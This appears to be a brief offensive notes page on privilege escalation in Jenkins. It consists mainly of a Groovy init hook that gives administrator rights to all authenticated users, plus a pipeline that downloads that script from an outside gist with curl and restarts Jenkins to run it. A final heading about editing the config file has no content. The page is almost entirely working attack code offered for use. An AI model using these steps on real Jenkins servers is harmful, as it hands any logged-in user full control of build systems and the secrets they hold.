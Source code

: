 # Privilege Escalations





## Give admin access to all authenticated users by executing a groovy script

HOOK.groovy
```
//code copied from http://tdongsi.github.io/blog/2017/12/30/groovy-hook-script-and-jenkins-configuration-as-code/
import jenkins.model.*
def instance = Jenkins.getInstance()

import hudson.security.*
def realm = new HudsonPrivateSecurityRealm(false)
instance.setSecurityRealm(realm)

def strategy = new hudson.security.GlobalMatrixAuthorizationStrategy()
strategy.add(Jenkins.ADMINISTER, 'authenticated')
instance.setAuthorizationStrategy(strategy)

instance.save()
```

```
pipeline {
    agent any
    
    stages {
        stage('Copy Groovy Script to JENKINS_HOME') {
            steps {
                sh '''
                    curl -o init.groovy https://gist.githubusercontent.com/dibsy/c42f536d12a406cbd3845aea4f6ac746/raw/b1240be7e950a96929810e5fafbdd76db46a9731/HOOK.groovy
                  '''
            }
        }
        stage('Restart Jenkins') {
            steps {
                script {
                    Jenkins.instance.restart()
                }
            }
        }        
    }
}
```



## Give extra permissions to user by modifying the config file
